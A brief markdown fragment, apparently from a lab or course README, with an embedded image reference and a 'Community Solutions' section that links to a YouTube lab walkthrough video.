    
    

---

## 🎥 Community Solutions

- 🔗 [Lab Walkthrough](https://www.youtube.com/watch?v=x1Q8PlEispU)